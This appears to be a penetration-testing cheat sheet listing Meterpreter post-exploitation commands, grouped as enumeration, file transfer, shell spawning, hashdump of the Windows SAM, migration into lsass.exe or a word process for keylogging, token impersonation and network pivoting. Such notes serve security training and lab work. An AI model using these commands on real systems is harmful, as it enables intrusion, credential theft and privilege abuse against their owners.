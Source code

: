 ```yaml
---
title: METERPRETER
summary: A Metasploit attack payload that provides an interactive shell.
description: A Metasploit attack payload that provides an interactive shell.
---
```


**[https://github.com/rapid7/meterpreter](https://github.com/rapid7/meterpreter)**

## Enumeration


 > 
 > **<font color=red>sysinfo</font>**</br>
 > Info about the system.

 > 
 > **<font color=red>getuid</font>**</br>
 > Get current user.

 > 
 > **<font color=red>getenv</font>**</br>
 > Get one or more environment variable values.

 > 
 > **<font color=red>search -f</font>** flag.txt</br>
 > Search a file on the machine.

## File Upload


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

## Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Spawn a shell.

 > 
 > **<font color=red>load powershell</font>**</br>
 > **<font color=red>powershell_shell</font>**</br>
 > Spawn Powershell.

## Attacks


 > 
 > **<font color=red>hashdump</font>**</br>
 > Dump hashes from Windows SAM base (for linux use module  linux/gather/hashdump). 

 > 
 > **<font color=red>migrate</font>** 716
 > Migrate to another process. 
 > Ex : Migrate to a word.exe and act like a keylogger.
 > Ex: Migrate to lsass.exe to run hashdump.

## Impersonate

If the current user has **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges enabled, we are able to impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > Load icognito module.
 > 
 > **<font color=red>list_tokens -u</font>**</br>
 > List Delegation Tokens available (not sure of the flag maybe `-g`).
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

 > 
 > **<font color=red>rev2self</font>**</br>
 > Revert to previous user.

## Pivoting

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
